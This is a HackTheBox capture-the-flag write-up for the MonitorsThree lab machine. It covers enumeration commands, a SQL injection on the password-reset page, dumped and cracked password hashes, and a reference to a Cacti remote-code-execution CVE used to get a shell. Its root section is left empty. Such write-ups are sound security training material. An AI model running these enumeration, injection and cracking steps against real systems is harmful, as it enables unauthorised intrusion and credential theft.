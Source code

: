 ```yaml
---
layout: post
title: "HackTheBox: MonitorsThree - Writeup 19/09/2024"
description: A writeup for Hackthebox Cicada
date:   2024-09-19 12:06:31 +0000
image:  '/images/post/monitorsthree.jpg'
tags:   [Hackthebox]
---
```

## Setup
`mkdir -p ~/ctf/HackTheBox/monitorsthree/scans; cd ~/ctf/HackTheBox/monitorsthree`
IP Address: 10.10.11.30


`echo "10.10.11.30 monitorsthree.htb" | sudo tee -a /etc/hosts`
10.10.11.30 monitorsthree.htb
***
### Enumeration 
![1b72642bca17d8635c49f8d56e7de859.png]({{site.baseurl}}/images/post/1b72642bca17d8635c49f8d56e7de859.png)
`nmap -sC -sV -Pn -p- monitorsthree.htb -oN scans/nmap -vv`
`nmap -sC -sV -p- -T5 --min-rate 2500 -oN scans/nmap_2 monitorsthree.htb`
```
# nmap findings

```

`gobuster dir --no-error -e -x php,html,txt -u http://monitorsthree.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 --output scans/gobuster`


[Gobuster Cheatsheet](https://linuxcscom.wordpress.com/gobuster/)
```
# gobuster findings

```

`feroxbuster --url http://monitorsthree.htb -d 2 -x php,html,txt --output scans/feroxbuster`
```
# ferox buster findings

```

`wfuzz -c -u https://monitorsthree.htb -H "Host: FUZZ.monitorsthree.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --oF scans/wfuzz_subdomain`
```
#Wfuzz Subdomain Finder 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://monitorsthree.htb/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                         
=====================================================================

000000246:   302        0 L      0 W        0 Ch        "cacti"       
```

using `'`  in http://monitorsthree.htb/forgot_password.php we find sql error and use Ghauri for SQL injection: 

![135e5b6ec2acf567cee994423c6cd01f.png]({{site.baseurl}}/images/post/135e5b6ec2acf567cee994423c6cd01f.png)
```
Database: monitorsthree_db
Table: users
[4 entries]
+----+-----------+-----------------------------+----------------------------------+-------------------+-----------------------+------------+------------+-----------+
| id | username  | email                       | password                         | name              | position              | dob        | start_date | salary    |                                            
+----+-----------+-----------------------------+----------------------------------+-------------------+-----------------------+------------+------------+-----------+                                            
| 2  | admin     | admin@monitorsthree.htb     | 31a181c8372e3afc59dab863430610e8 | Marcus Higgins    | Super User            | 1978-04-25 | 2021-01-12 | 320800.00 |                                            
| 7  | dthompson | mwatson@monitorsthree.htb   | c585d01f2eb3e6e1073e92023088a3dd | Michael Watson    | Website Administrator | 1985-02-15 | 2021-05-10 | 75000.00  |                                            
| 6  | janderson | janderson@monitorsthree.htb | 1e68b6eb86b45f6d92f8f292428f77ac | Jennifer Anderson | Network Engineer      | 1990-07-30 | 2021-06-20 | 68000.00  |                                            
| 5  | mwatson   | dthompson@monitorsthree.htb | 633b683cc128fe244b00f176c8a950f5 | David Thompson    | Database Manager      | 1982-11-23 | 2022-09-15 | 83000.00  |                                            
+----+-----------+-----------------------------+----------------------------------+-------------------+-----------------------+------------+------------+-----------+                                            
[22:50:02] [INFO] table 'monitorsthree_db.users' dumped to CSV file '/home/w3rew01f/.ghauri/monitorsthree.htb/dump/monitorsthree_db/users.csv'

```

Using hashcat hashid and rockyou list we crack the hash:
![96cbaa7dc84d9ec21c202cebfb397f2f.png]({{site.baseurl}}/images/post/96cbaa7dc84d9ec21c202cebfb397f2f.png)

`admin:greencacti2001`

Nothing useful in `http://monitorsthree.htb/admin` and `http://monitorsthree.htb/login`

The version of cacti is vulnerable to [CVE-2024-25641](https://www.rapid7.com/db/modules/exploit/multi/http/cacti_package_import_rce/)

![9f60245f96b99a6ee4f5393cf58f4847.png]({{site.baseurl}}/images/post/9f60245f96b99a6ee4f5393cf58f4847.png)

we get a shell but no access to marcus 

using linpeas we find a database 
![60662f54ca3a5036f1555b8e13eae8ff.png]({{site.baseurl}}/images/post/60662f54ca3a5036f1555b8e13eae8ff.png)
Active 3306 port here 
![23ee3a00966866b1073ba303489c6e0e.png]({{site.baseurl}}/images/post/23ee3a00966866b1073ba303489c6e0e.png)

```
+----+----------+--------------------------------------------------------------+-------+---------------+--------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
| id | username | password                                                     | realm | full_name     | email_address            | must_change_password | password_change | show_tree | show_list | show_preview | graph_settings | login_opts | policy_graphs | policy_trees | policy_hosts | policy_graph_templates | enabled | lastchange | lastlogin | password_history | locked | failed_attempts | lastfail | reset_perms |
+----+----------+--------------------------------------------------------------+-------+---------------+--------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
|  1 | admin    | $2y$10$tjPSsSP6UovL3OTNeam4Oe24TSRuSRRApmqf5vPinSer3mDuyG90G |     0 | Administrator | marcus@monitorsthree.htb |                      |                 | on        | on        | on           | on             |          2 |             1 |            1 |            1 |                      1 | on      |         -1 |        -1 | -1               |        |               0 |        0 |   436423766 |
|  3 | guest    | $2y$10$SO8woUvjSFMr1CDo8O3cz.S6uJoqLaTe6/mvIcUuXzKsATo77nLHu |     0 | Guest Account | guest@monitorsthree.htb  |                      |                 | on        | on        | on           |                |          1 |             1 |            1 |            1 |                      1 |         |         -1 |        -1 | -1               |        |               0 |        0 |  3774379591 |
|  4 | marcus   | $2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK |     0 | Marcus        | marcus@monitorsthree.htb |                      | on              | on        | on        | on           | on             |          1 |             1 |            1 |            1 |                      1 | on      |         -1 |        -1 |                  |        |               0 |        0 |  1677427318 |
+----+----------+--------------------------------------------------------------+-------+---------------+--------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+

```
Using hashcat we get the password for marcus
![4b6eb0c5fb608ca27e0d603cfe9ba554.png]({{site.baseurl}}/images/post/4b6eb0c5fb608ca27e0d603cfe9ba554.png)

`marcus:12345678910`
Succesfull Login 
![d13817ed04784ca5bedde6b5c6dbbbb7.png]({{site.baseurl}}/images/post/d13817ed04784ca5bedde6b5c6dbbbb7.png)
***
# user flag
Location: /home/marcus | Flag: 37bbbc1d93cfa2cea936fc82279720e3

#### Privilege Escalation



***
# root flag
Location:  | Flag: 
```

```